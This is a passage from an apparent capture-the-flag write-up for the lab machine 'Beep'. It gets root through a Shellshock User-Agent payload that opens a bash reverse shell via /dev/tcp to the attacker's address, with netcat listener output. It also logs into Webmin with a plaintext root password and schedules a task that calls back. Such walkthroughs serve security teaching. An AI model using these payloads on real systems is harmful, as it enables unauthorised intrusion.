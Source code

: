 And we receive a connection:

```shell
❯ sudo tcpdump -ni tun0 icmp
[sudo] password for kali:
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
18:56:11.688169 IP 10.10.10.7 > 10.10.16.3: ICMP echo request, id 20511, seq 1, length 64
18:56:11.688182 IP 10.10.16.3 > 10.10.10.7: ICMP echo reply, id 20511, seq 1, length 64
```

Let's establish a reverse shell:

```shell
User-Agent: () { :; };bash -i >& /dev/tcp/10.10.16.3/443 0>&1
```

We receive a connection as root:

```shell
❯ sudo nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.7] 59290
bash: no job control in this shell
[root@beep webmin]# id
uid=0(root) gid=0(root)
[root@beep webmin]# whoami
root
```

## Webmin Command [Path #4]

 I can login to webmin with the credentials root:jEhdIekWmdjE. 
 
![[webmin-admin-page.png]]
 
 This interface is designed to administer the system and we have root access because of the credentials that we found earlier so we can create a task as root:
 
![[schedule-command.png]]

![[schedule-command-created.png]]
 
In a minute (depending on the time you have given them), the script will run and we will get a reverse shell:

```shell
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.7] 43947
bash: no job control in this shell
[root@beep /]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
[root@beep /]# whoami
root
```
